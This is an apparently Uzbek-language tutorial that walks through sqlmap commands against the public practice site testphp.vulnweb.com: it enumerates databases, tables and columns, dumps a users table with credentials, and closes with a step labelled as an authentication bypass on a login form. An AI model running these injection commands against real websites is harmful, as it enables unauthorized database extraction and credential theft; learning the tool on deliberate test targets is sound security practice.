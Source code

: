 **SQLMAP**   
```
sudo apt update && sudo apt install sqlmap
```   
1. Veb-saytda SQL Injection bor-yo'qligini aniqlash uchun (Barcha ma'lumotlar bazasini chiqarish):   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --batch --dbs
```
available databases [2]:  
**acuart**  
information_schema  


2. Muayyan bazadagi jadvallarni aniqlash:   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```
Database: acuart  
(8 tables)   
.......  
users  

3. Muayyan jadvaldagi ustunlarni chiqarish:
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns
```
name  
pass  
uname  

4. Ma'lumotlarni chiqarish (dump):
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C name,uname,pass --dump
```  
| name         | uname | pass |  
| John M Smith | test  | test |   

5. Authentication Bypass (Kirishni chetlab o'tish)
```
sqlmap -u "http://testphp.vulnweb.com/login.php" --data="username=admin&password=1234" --dump
```
